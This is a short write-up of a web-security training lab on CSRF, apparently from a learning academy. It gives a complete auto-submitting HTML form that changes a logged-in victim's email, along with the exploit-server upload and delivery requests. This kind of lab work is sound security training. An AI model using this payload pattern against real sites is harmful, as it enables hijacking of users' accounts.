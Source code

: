 ### Lab: CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

_____

Analysis and Exploit:

1. Tested the 'change-email' functionality logging-in as _wiener_

2. Took note of HTML form structure
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```

3. Crafted a similar HTML structure to exploit the CSRF vulnerability*  
```html
<html>
<body>
<form class="login-form" name="change-email-form" action="https://0a1200fd0466cc9880332147007f0037.web-security-academy.net/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="hacker@hacker.com">
    <button class='button' type='submit'> Update email </button>
</form>
<script>document.forms[0].submit()</script>
</body>
</html>
```

4. Delivered to victim - Lab solved

_____

Script notes:

1. POST **/my-account/change-email**  
    params:
    - email=test%40mynewemail.email  

2. //

3. Upload to the 'exploit server' | POST **/**  
    params:
    - urlIsHttps=on
    - responseFile=/exploit
    - responseHead=HTTP/1.1 200 OK Content-Type: text/html; charset=utf-8
    - responseBody=*
    - formAction=STORE
    
4. GET **/deliver-to-victim**